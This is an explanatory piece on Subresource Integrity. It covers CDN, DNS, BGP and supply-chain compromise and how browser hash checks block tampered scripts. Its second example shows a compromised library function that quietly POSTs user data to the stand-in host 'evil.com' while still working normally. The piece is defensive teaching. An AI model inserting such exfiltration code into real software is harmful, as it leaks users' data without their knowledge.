 **What is Resource Integrity?**
Resource integrity means ensuring that a file you're loading (JavaScript, CSS, images, etc.) is exactly the same as what you intended to load, without any unauthorized modifications. Think of it like a digital seal of authenticity that browsers can verify before executing or applying the resource.

**The Security Problem SRI Solves:**

**CDN Compromise Scenarios:**
- **Direct CDN Attack**: Attackers compromise the CDN provider and replace legitimate files with malicious ones
- **DNS Hijacking**: Attackers redirect CDN domains to servers they control
- **BGP Hijacking**: Network-level attacks that reroute traffic to malicious servers
- **Supply Chain Attacks**: Compromised build processes inject malicious code into otherwise legitimate libraries

**Real-World Attack Examples:**

**Example 1: CDN Compromise**
```html
<!-- What you intended to load -->
<script src="https://cdn.example.com/jquery-3.6.0.min.js"></script>

<!-- What an attacker might serve instead -->
<!-- Same URL, but the file now contains: -->
<!--   - Keylogger functionality -->
<!--   - Cryptocurrency mining scripts -->
<!--   - Data exfiltration code -->
```

**Example 2: Library Replacement Attack**
```javascript
// Original library function
function processUserData(data) {
  return sanitizeInput(data);
}

// Compromised version
function processUserData(data) {
  // Malicious code: send data to attacker's server
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
  
  return sanitizeInput(data); // Still works to avoid detection
}
```

**How SRI Prevents These Attacks:**
SRI creates a cryptographic link between your application and the expected content:

1. **Hash Generation**: Create a cryptographic hash of the trusted resource
2. **Integrity Attribute**: Include the hash in the HTML integrity attribute
3. **Browser Verification**: Browser downloads the resource and computes its hash
4. **Comparison**: Browser compares computed hash with expected hash
5. **Decision**: If hashes match, load resource; if not, block and report error
